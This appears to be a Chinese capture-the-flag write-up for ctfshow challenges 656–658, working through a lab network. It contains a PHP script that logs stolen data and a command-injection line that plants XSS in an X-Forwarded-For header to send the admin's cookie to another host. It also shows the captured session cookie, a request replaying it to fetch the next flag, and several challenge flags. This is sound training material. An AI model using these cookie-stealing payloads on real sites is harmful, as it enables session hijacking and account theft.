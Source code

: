 ![image-20220326190857912](https://img-blog.csdnimg.cn/img_convert/f337207666227938b25d93df3f8e28a5.png)

也没过滤

![image-20220326191449344](https://img-blog.csdnimg.cn/img_convert/ea44402f5a3b1d7952f08ea8af95e829.png)

利用跳板机的http服务监听返回数据

```
//xss.php
<?php
$a = $_REQUEST['a'];
file_put_contents('xss.log',$a);
?>
```

xss打过去 同时得知admin机子为 .6

```
a=echo `curl  --header "X-Forwarded-For:<script>window.location.href=\"http://172.2.39.4:80/static/xss.php?a=\"+document.cookie</script>" http://172.2.39.5:80/index.php?action=login&u=1&p=2`;
```

xss.log

```
PHPSESSID=1rbpav9gv5to73c7bcf475kks6; auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=
//flag_656=ctfshow{e0b80d6b99d2bdbae36f121f78abe96b}
```

# 657

审计

```
a=echo `curl  --header "Cookie: PHPSESSID=7odu2rhml9930mjcqen79vi2ei;auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=" http://172.2.39.5:80/index.php?action=main\&m=getFlag`;
//flag_657=ctfshow{2a73f8f87a58a13c23818fafd83510b1}
```

# 658

```
function testFile($f){
	$result = '';
	$file = $f.md5(md5(random_int(1,10000)).md5(random_int(1,10000))).'.php';
	if(file_exists($file)){
		$result = FLAG_658;
	}
	return $result;
}
```

利用file_exists去访问ftp上的文件，只返回存在即可，利用第一台机子的python3
